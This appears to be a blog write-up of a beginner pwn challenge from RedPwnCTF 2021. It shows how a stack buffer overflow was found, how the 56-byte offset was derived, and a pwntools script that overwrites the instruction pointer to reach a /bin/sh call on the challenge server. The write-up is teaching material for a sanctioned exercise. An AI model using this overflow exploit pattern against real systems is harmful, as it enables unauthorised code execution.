 +++
author = "biplavxyz"
date = "2021-07-14"
title = "RedPwnCTF-2021 - Writeup - pwn/beginner-generic-pwn-number-0"
+++

Greetings everyone!  
This is going to be writeup about the challenge `beginner-generic-pwn-number-0` of `pwn` category from RedPwnCTF 2021.  
  
`Challenge 1: beginner-generic-pwn-number-0`  
Running the binary with sample input `test` simply exited the program with no error code, while running the binary with very long input threw `segmentation fault` error. So, the program had buffer overflow vulnerability.  
![1](/static/pwn1checking1.png)  

Then, I tried to find the number of bytes after which overflow occured. I printed a large number of 'A' character and passed it to the program, which caused program to crash with same `segmentation fault` error.  
```perl
perl -E "print 'A' x 58" | ./beginner-generic-pwn-number-0"
```
![3](/static/pwn1checking3.png)  

Then, I ran `dmesg` command to print the message buffer of kernel.
![4](/static/pwn1checking4.png)  
It can be seen that crash was caused due to the bad value of `RIP` register.  
`4141` are two extra `A` characters that buffer couldn't handle, and thus it overwrote the instruction pointer.  
As we printed out `58` `A` characters, and had two extra `A`'s, the required offset will be `58-2` which equals to `56`.  

Now, it's time analyze the binary with radare2.
I opened the binary in radare2 with command:  
`r2 beginner-generic-pwn-number-0`, and analyzed the binary with `aaaa`.  
I extracted the binary info with `iI` command.  

![2](/static/pwn1binaryinfo.png)  
As the binary didn't have canary enable, and wasn't stripped, exploiting it was easy.  
Then, I printed functions list with `afl`, and seeked to the main function with `s main`.  

![5](/static/pwn1r2-1.png)  

![6](/static/pwn1r2-2.png)

Then, I printed the disassemble code of main function with `pdf` command. 
It can be seen that there is also an address `0x004012ac` which calls shell.  
```bash
/bin/sh
```
![7](/static/pwn1r2-addressofshell.png)
As instruction pointer can be controlled , it is possible to jump to the address where shell can be executed.  

I used pwntools to craft a simple exploit and got a shell.

```python
from pwn import *

#elf = ELF('./beginner-generic-pwn-number-0')

#p = elf.process()

#print(p.recv())

p = remote("mc.ax", 31199)

payload = b"A"*56 + p64(0x004012ac)

p.sendline(payload)

p.interactive()
```  

![8](/static/pwnexploit1.png)

And there it was, I got shell, and got the flag.

Hope you learned something.  
Thanks for reading!  
> - <cite>seizetheday</cite>